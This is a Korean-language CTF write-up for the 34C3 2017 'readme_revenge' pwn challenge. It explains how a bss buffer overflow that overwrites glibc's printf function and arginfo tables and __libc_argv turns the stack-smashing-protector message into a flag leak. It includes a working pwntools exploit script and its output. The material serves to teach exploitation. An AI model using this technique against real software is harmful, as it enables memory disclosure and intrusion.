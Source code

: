 # [2017_34C3CTF] \[PWN] readme_revenge

## Key words

* SSP leak
* printf structure
* buffer overflow

## Description

```
You can't own me if I don't use a libc! Right? Right?

Files: Link

Connect: nc 35.198.130.245 1337

Difficulty: easy-ish
```

## Solution

```
$ strings readme_revenge | grep 34C3
34C3_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

쉘 획득이 목적이 아니고 원격 바이너리 내의 플래그를 읽어와야 합니다.

```assembly
.text:0000000000400A0D                 push    rbp
.text:0000000000400A0E                 mov     rbp, rsp
.text:0000000000400A11                 lea     rsp, [rsp-1020h]
.text:0000000000400A19                 or      [rsp+1020h+var_1020], 0
.text:0000000000400A1E                 lea     rsp, [rsp+1020h]
.text:0000000000400A26                 lea     rsi, name
.text:0000000000400A2D                 lea     rdi, unk_48D184
.text:0000000000400A34                 mov     eax, 0
.text:0000000000400A39                 call    __isoc99_scanf
.text:0000000000400A3E                 lea     rsi, name
.text:0000000000400A45                 lea     rdi, aHiSBye    ; "Hi, %s. Bye.\n"
.text:0000000000400A4C                 mov     eax, 0
.text:0000000000400A51                 call    printf
.text:0000000000400A56                 mov     eax, 0
.text:0000000000400A5B                 pop     rbp
.text:0000000000400A5C                 retn
```

main 함수입니다. scanf를 통해 버퍼 오버플로우를 발생시킬 수 있습니다.

```
[*] flag                    : 0x6b4040
[*] name                    : 0x6b73e0
[*] __libc_argv             : 0x6b7980
[*] __printf_function_table : 0x6b7a28
[*] __printf_arginfo_table  : 0x6b7aa8
```

bss 영역에는 위와 같은 심볼이 존재하며 name에서 overflow를 발생시킬 수 있습니다. 이를 통해 bss 영역의 모든 변수를 제어할 수 있습니다.

```c
__printf (const char *format, ...)
{
  va_list arg;
  int done;

  va_start (arg, format);
  done = vfprintf (stdout, format, arg);
  va_end (arg);

  return done;
}
```

`glibc`의 `printf` 함수를 분석해야 합니다. `printf`에선 `vfprintf`를 호출합니다.(https://github.com/lattera/glibc/blob/master/stdio-common/printf.c)

```c
  if (__builtin_expect (__printf_function_table != NULL
			|| __printf_modifier_table != NULL
			|| __printf_va_arg_table != NULL, 0))
    goto do_positional;
```

`vfprintf`에서는 `__printf_function_table`이 `NULL`이 `do_positional`로 이동합니다.(https://github.com/lattera/glibc/blob/master/stdio-common/vfprintf.c)

```c
#ifdef COMPILE_WPRINTF
	nargs += __parse_one_specwc (f, nargs, &specs[nspecs], &max_ref_arg);
#else
	nargs += __parse_one_specmb (f, nargs, &specs[nspecs], &max_ref_arg);
#endif
```

그 후, 파싱 함수를 호출합니다.

```c
  if (__builtin_expect (__printf_function_table == NULL, 1)
      || spec->info.spec > UCHAR_MAX
      || __printf_arginfo_table[spec->info.spec] == NULL
      /* We don't try to get the types for all arguments if the format
	 uses more than one.  The normal case is covered though.  If
	 the call returns -1 we continue with the normal specifiers.  */
      || (int) (spec->ndata_args = (*__printf_arginfo_table[spec->info.spec])
				   (&spec->info, 1, &spec->data_arg_type,
				    &spec->size)) < 0)
```

`__parse_one_specmb` 함수를 봅시다. `(*__printf_arginfo_table[spec->info.spec])` 포인터 함수가 호출 됩니다. 이를 통해 exploit 가능한데 함수의 인자 조작이 불가능합니다. 하지만 `__libc_argv`를 조작할 수 있기 때문에 Stack Smashing Protector message를 이용하여 flag를 leak하는 것이 가능합니다.

## Exploit

```python
from pwn import *
import sys

target = "./readme_revenge"
binary = ELF(target)

if len(sys.argv) == 1:
	r = process(target)
else:
	r = remote("35.198.130.245", 1337)

raw_input()

flag = binary.symbols['flag']
name = binary.symbols['name']
libc_argv = binary.symbols['__libc_argv']
func_table = binary.symbols['__printf_function_table']
arg_table = binary.symbols['__printf_arginfo_table']
log.info("flag                    : 0x%x" % flag)
log.info("name                    : 0x%x" % name)
log.info("__libc_argv             : 0x%x" % libc_argv)
log.info("__printf_function_table : 0x%x" % func_table)
log.info("__printf_arginfo_table  : 0x%x" % arg_table)

payload = p64(flag)
payload += "\x00" * 912
payload += p64(binary.symbols['__fortify_fail'])
payload += "a" * (libc_argv - name - len(payload))
payload += p64(name)
payload += "a" * (func_table - libc_argv - 8)
payload += p64(1)
payload += "\x00" * (arg_table - func_table - 8)
payload += p64(name)
r.sendline(payload)


r.interactive()
```

## 실행 결과

```
$ python ex.py 1
[*] '/home/delspon/labs/ctf/2017_34c3ctf/readme-revenge/readme_revenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 35.198.130.245 on port 1337: Done

[*] flag                    : 0x6b4040
[*] name                    : 0x6b73e0
[*] __libc_argv             : 0x6b7980
[*] __printf_function_table : 0x6b7a28
[*] __printf_arginfo_table  : 0x6b7aa8
[*] Switching to interactive mode
*** \xff\xff\xff\xff ***: 34C3_printf_1s_s0_fun_s0m3t1m3s!!11 terminated
======= Backtrace: =========
```

